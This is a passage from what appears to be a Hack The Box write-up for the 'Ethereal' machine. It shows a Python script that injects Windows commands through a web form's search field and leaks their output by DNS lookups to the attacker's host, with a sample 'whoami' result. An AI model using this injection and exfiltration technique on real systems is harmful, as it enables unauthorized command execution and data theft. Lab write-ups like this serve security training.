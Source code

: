 ```python
            data = s.recv(1024)
            if data[1] == 2: # A record
                print(data[13:-5])
    except Exception as e:
        print(e)
        print("[!] Done")
        return

def send(cmd, col):
    session = FuturesSession()
    session.post("http://ethereal.htb/p1ng/", data=
            {
                "__VIEWSTATE": "/wEPDwULLTE0OTYxODU3NjhkZD0G/ny1VOoO1IFda8cKvyAZexSk+Y22QbXBRP0gxbre",
                "__VIEWSTATEGENERATOR": "A7095145",
                "__EVENTVALIDATION": "/wEdAAOZvFNfMAAnpqKRCMR2SHn/4CgZUgk3s462EToPmqUw3OKvLNdlnDJuHW3p+9jPAN/siIFmy9ZoaWu7BT0ak0x7Uttp88efMu6vUQ1geHQSWQ==",
                "search": f"127.0.0.1 && FOR /F \"tokens={col}\" %g IN ('{cmd}') do (nslookup %g 10.10.14.23)",
                "ctl02": ""
            },
            proxies={"http": "127.0.0.1:8080"})

def shell():
    while 1:
        cmd = input("$> ")
        if cmd == "exit":
            s.close()
            exit()
        else:
            col = input("(col#)> ")
            if col == '':
                col = 1
            else:
                col = int(col)
            send(cmd, col)
            recv()

if __name__ == '__main__':
    shell()
```    

We still need to mess with the token parameter when we have output with spaces in it, but it make things but more manageable.

**whoami**
```
root@darkisland:~/hackthebox/Machines/Ethereal# ./exfil_alan.py 
$> whoami
(col#)> 
[+] Receiving data:
b'etherealalan'
```
